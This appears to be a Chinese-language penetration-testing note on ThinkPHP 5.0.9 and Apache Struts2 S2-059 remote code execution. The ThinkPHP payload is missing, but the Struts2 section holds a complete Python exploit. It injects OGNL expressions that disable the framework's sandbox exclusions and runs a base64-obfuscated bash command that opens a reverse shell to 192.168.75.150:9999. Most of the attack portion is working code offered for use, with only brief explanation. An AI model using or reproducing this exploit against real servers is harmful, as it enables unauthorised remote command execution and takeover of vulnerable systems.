





## thinkphp框架漏洞

版本：5.0.9

随便构造请求，得到如下版本号




##### 




利用此payload发送POST请求rce

或者利用工具



## Struts2-059远程代码执行漏洞利用

Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

影响版本: Struts 2.0.0 - Struts 2.5.20




对百分号进行编码，可执行命令	

**反弹shell的POC：**

```python
import requests

url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljc1LjE1MC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```




